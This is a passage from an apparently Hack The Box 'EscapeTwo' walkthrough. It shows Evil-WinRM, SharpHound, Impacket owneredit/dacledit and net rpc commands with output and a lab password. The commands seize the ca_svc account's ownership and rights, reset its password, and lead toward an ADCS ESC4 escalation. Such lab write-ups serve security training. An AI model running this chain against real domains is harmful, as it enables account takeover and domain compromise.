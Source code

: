 ```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> cd C:
*Evil-WinRM* PS C:\Users\ryan\Documents> mkdir Temp
*Evil-WinRM* PS C:\Users\ryan\Documents> cd Temp
*Evil-WinRM* PS C:\Users\ryan\Documents\Temp> upload SharpHound.exe
*Evil-WinRM* PS C:\Users\ryan\Documents\Temp> .\SharpHound.exe
*Evil-WinRM* PS C:\Users\ryan\Documents\Temp> dir
*Evil-WinRM* PS C:\Users\ryan\Documents\Temp> download 20250503115447_BloodHound.zip
```

Looking at outbound access for `ryan`, we see the `WriteOwner` permission towards user `ca_svc`. Let's use `owneredit` to set ourselves as the owner of `ca_svc`, `dacledit` to grant us `FullControl` rights and then `net rpc` to change the `ca_svc` password. 

![](/img/htb/escapetwo/bh_ryan_to_ca_svc.png)

```bash
owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!

dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250503-164340.bak
[*] DACL modified successfully!

net rpc password "ca_svc" "Password123!" -U "sequel.htb"/"ryan"%"WqSZAF6CysDQbGb3" -S "10.10.11.51"
```

Now that we can use the `ca_svc` account, we can see in BloodHound a clear path to domain admin. 

![](/img/htb/escapetwo/bh_ca_svc_to_admin.png)

The `ADCSESC4` deserves a little bit of explanation. `ADCS` stands for `Active Directory Certificate Service`. `ESC4` simply refers to one of many privilege escalation vectors (labelled `ESC1` to `ESC11`). These vulnerabilities all have the same goal in common: give you access to a certificate enabled for domain authentication so that you can use it to request a Kerberos TGT (basically certificate-based Kerberos authentication). See references for a detailed dive into these vulnerabilities. 

`ESC4` indicates a vulnerable certificate template access control. This can be abused to overwrite the configuration of the certificate template to make the template vulnerable to `ESC1`, which is when a certificate template permits client authentication and allows the enrollee to supply an arbitrary Subject Alternative Name or User Principal Name. To exploit this, we can use `certipy`. Their README is very detailed and contains example usage for basically every exploitation technique, so we can follow along pretty easily. 
